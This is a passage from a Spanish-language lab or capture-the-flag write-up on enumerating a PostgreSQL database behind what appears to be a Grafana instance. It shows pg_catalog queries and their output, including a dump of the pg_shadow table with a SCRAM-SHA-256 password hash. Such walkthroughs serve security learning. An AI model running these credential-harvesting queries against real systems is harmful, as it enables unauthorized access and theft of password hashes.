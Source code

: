 ```json
"data":{
    "values":[
        [
            "moon_namesdb"
        ]
    ]
}
```
**Ojo:** Ahora empezare a enumerar la base de datos haciedo uso de ```pg_catalog``` la cual es similar a ```information_schema```, ya que esta contiene informacion de las bases de datos, esto no es necesario ya que no encontraremos nada que nos sirva, solo lo hago por que se me hace interesante.

### Enumeracion de la DB

Como sabemos que se esta haciendo uso de ```postgreSQL``` podemos usar ```pg_catalog``` para enumerar la base de datos, usando ```SELECT * FROM pg_catalog.pg_database;``` mostraremos todas las base de datos existentes, con ```pg_catalog.pg_database``` le estamos diciendo que de ```pg_catalog``` muestre las bases de datos, y eso lo indicamos con ```pg_database```, el resultado son todas las bases de datos existentes

```json
[
    "postgres",
    "moon_namesdb",
    "template1",
    "template0"
],
```
Vemos que la base de datos que nos interesa es la ```moon_namesdb```, asi que ahora empezaremos a enumerar las tablas de esta base da datos, ten en cuenta que no es necesario usar un ```WHERE``` para indicarle la base datos que queremos enumerar por que ```moon_namesdb``` ya esta en uso, asi que las consultas se harian usando esa base de datos, usando de 
```
SELECT tablename FROM pg_catalog.pg_tables;
``` 

Obtendremos todas las tablas, en este caso le indicamos con el SELECT que obtenga la columna llamada ```tablename``` de ```pg_tables``` la cual tiene todas las tablas de la base de datos ```moon_namesdb```, podemos observar dos tablas interesantes: ```pg_user_mapping``` y ```pg_shadow```, si mostramos todos los datos usando ```SELECT * FROM pg_shadow``` nos mostrara eso:

```json
"values":[
    [
        "postgres",
        "grafana_viewer"
    ],
    [
        "10",
        "16385"
    ],
    [
        null,
        "SCRAM-SHA-256$4096:K9IJE4h9f9+tr7u7AZL76w==$qdrtC1sThWDZGwnPwNctrEbEwc8rFpLWYFVTeLOy3ss=:oD4gG69X8qrSG4bXtQ62M83OkjeFDOYrypE3tUv0JOY="
    ],
]
```

